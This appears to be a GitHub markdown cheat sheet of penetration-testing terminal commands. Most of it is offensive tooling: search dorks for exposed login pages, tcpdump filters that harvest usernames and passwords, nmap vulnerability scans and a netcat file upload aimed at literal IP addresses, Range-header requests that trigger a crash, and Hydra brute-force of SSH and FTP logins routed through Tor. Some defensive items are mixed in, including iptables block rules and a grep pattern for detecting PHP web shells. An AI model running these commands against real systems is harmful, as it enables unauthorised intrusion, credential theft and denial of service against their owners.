# <img width="28" src="http://0z3r00t3r.6te.net/img/folder.png"> Terminal / Other
##### &#x1F538;  VPN config (term) :
`sudo openvpn --config vpnbook-euro2-tcp80.ovpn`

`hashcat -a 3 --stdout ?l | gobuster dir -u https://TARGET -w - --wildcard`

##### &#x1F538;  BEST DORK FOR Bing.com : 
    -site:.com intitle:login.page inbody:"User Login"
    intitle:login.page inbody:"User Login" instreamset:url:".php"
    intitle:"Admin Login" inbody:"login"
    intitle:"User Login" instreamset:url:login.php?id=
    intitle:"News" instreamset:url:news_id.php?id=
    inbody:"login" instreamset:url:sa/index.php?id=
    
    
##### &#x1F538; SSLscan Show full certificate information : 
`sslscan --http --bugs --verbose --show-certificate target.com`
    
##### &#x1F538; TCPdump eGrep username / password : 
`sudo tcpdump -A -i any -w loging.pcap | egrep -i 'username=|password=' --line-buffered -B20`

    sudo /usr/sbin/tcpdump -Nnn -i any -s0 'tcp[13] & 1 != 0'
    #Block ip : 
     - sudo iptables -A INPUT -s IP -j DROP
     - sudo /usr/sbin/tcpdump host <ip>	#check the ip traffic
     - sudo /usr/sbin/tcpdump portrange 80-137-443-445		#check port range between 80-445
     - sudo /usr/sbin/tcpdump src 10.0.0.13 and dst port 80 or 22	#traffic that from ip and port 
    

##### &#x1F538; AnyCMD : 
    #resolve websites
    - pnscan -v -s -t10 <TARGET>/24 80
    - dmitry -winsepo output.txt <TARGET>
    
    #check vm with crunch list install (sudo apt intall onesixtyone)
    - crunch 4 4 ad12 > smpList
    - onesixtyone -c smpList -d <TARGET>
    - snmpcheck -c smpList -d <TARGET>
    
    #TCP, UDP open ports in real time with socket summary
    - watch ss -stplu
    
    #view established connections
    - lsof -i
    - #looking for cracks:google:(Xxxx)" 94fbr)
    #Adding random word before list ex: admin -> will be -> 9xadmin,eqadmin,ifadmin:
    - paste <(base64 -w2 /dev/urandom) user_list.txt | awk 'NF==2{print $1$2} NF!=2{exit}'
    #Onion: 
    - proxychains sudo nmap -Pn --script=vuln site.onion
    - proxychains sudo nmap -Pn --script=vuln 23.202.231.55
    
    
##### &#x1F538; Grep / Find String : 
    #find inside any file and print it 
    - find /usr/share -iname '*SQLMAP*' -print
    - find /var/www/ -name "*.php"
    - find /home -type f -name '*.php' -mtime -7
    - find /var/www/html/ -type d -perm 755 -exec find {} -name "*.zip" \;
    - find / -xdev -type f -size +100M -exec ls -la {} \; | sort -nk 5
    - find . -name "*.sql"
    #To search in .php and cat them all same time
    - find . -name "*.php" -type f -exec cat {} \;
    #Zip all folders to a1.zip
    - zip -r a1.zip .
    #Remove space between lines in file.txt / a.json result
    - sed '/^ *$/d' a1.json > output.txt
    #Print & save only 5 words in list.txt
    - awk 'length>5' list.txt > done_list.txt
    #Remove duplicate lines from file.txt file :
    - sort file.txt | uniq -d
    - sort -u file.txt
    
#### &#x1F538; Reading files end with php and search for Shell :
    grep '((eval.*(base64_decode|gzinflate|\$_))|\$[0O]{4,}|FilesMan|JGF1dGhfc|IIIl|die\(PHP_OS|posix_getpwuid|Array\(base64_decode|document\.write\("\\u00|sh(3(ll|11)))' . -lroE --include=*.php*

##### &#x1F538; SCAN Methods With openssl
    #Open terminal and type : 
        - openssl s_client -connect <TARGET:443>
    #Hit enter twice and enter :    
        OPTIONS / HTTP/1.1
        Host: <TARGET>

##### &#x1F538; PUT FILE WITH NetCat
    nc 190.115.18.139 80
    PUT /x.txt HTTP/1.1
    Host: 190.115.18.139



### &#x1F538; Hashed Type : 
    Urlencode : wef
    Double Urlencode : wef
    Base 64 : dDR0ZWFt
    Uri Hexadecimal : %74%34%74%65%61%6d
    Random upper : wef
    Double nibble hexa : %%37%34%%33%34%%37%34%%36%35%%36%31%%36%64
    SHA1 : 376ccc0db6534301362711e1fbc455f9710b447a
    MD5 : 7c3a9746c0bb3c99f4877edbbf6d3690
    Binary Ascii : 74347465616d
    Html Decimal : &#116;&#52;&#116;&#101;&#97;&#109;
    Html Hexadecimal : &#x74;&#x34;&#x74;&#x65;&#x61;&#x6d;
    UTF-8 Binary : \x74\x34\x74\x65\x61\x6d
    UTF-8 : \u0074\u0034\u0074\u0065\u0061\u006d
    Mysql char : CHAR(116,52,116,101,97,109)
    MSsql char : CHAR(116)+CHAR(52)+CHAR(116)+CHAR(101)+CHAR(97)+CHAR(109)
    All : CHAR(116)+CHAR(52)+CHAR(116)+CHAR(101)+CHAR(97)+CHAR(109)


##### &#x1F538; Check If return [Requested Range Not Satisfiable] means vulnerable :
    wget --header="Range: bytes=0-18446744073709551615" http://<TARGET/FILE.FILE
##### &#x1F538; Check if [BSOD] Vulnerable systems:
    wget --header="Range: bytes=18-18446744073709551615" http://<TARGET/FILE.FILE
##### &#x1F538; Stop ip / Block :
    sudo iptables -A INPUT 1 -s IP-ADDRESS-DDOS-HACKER-HERE -j DROP/REJECT
    sudo iptables-save 
   
    #Block IPs#4v3r
    - iptables -A INPUT -s xxxxxx -j DROP
    - iptables -A INPUT -s xxxxxxx -j DROP
    - iptables -A INPUT -s xxxxxxxx -p tcp --destination-port 80 -j DROP
    - iptables -A INPUT -s xxxxxxxx -p tcp --destination-port 443 -j DROP

##### &#x1F538; Generate 1M 0-1,000,000 number
    #!/usr/bin/env bash
    i=1
    while [ $i -le 1000000 ]
    do
        echo $i
        i=$(($i+1))
    done
 
 ##### &#x1F538; Random List 4 Words
    #!/usr/bin/env bash
    i=1
    while [ $i -le 10000 ]
    do
        tr -dc a-z0-9 </dev/urandom | head -c 4 ; echo ''
        i=$(($i+1))
    done

##### &#x1F538; Hydra
    hydra -t 64 -l root -V -x '4:4:aA1"@#$!()=`~?><;:%^&*_-+/,.\ ' ssh TARGET
    hydra -t 4 -l root -V -x '4:9:a-z' TARGET ssh HYDRA_PROXY=socks5://127.0.0.1:9150
    hydra -l admin -p /opt/backbox/warlist/password-ftp.txt ftp://TARGET HYDRA_PROXY=socks5://127.0.0.1:9050
    
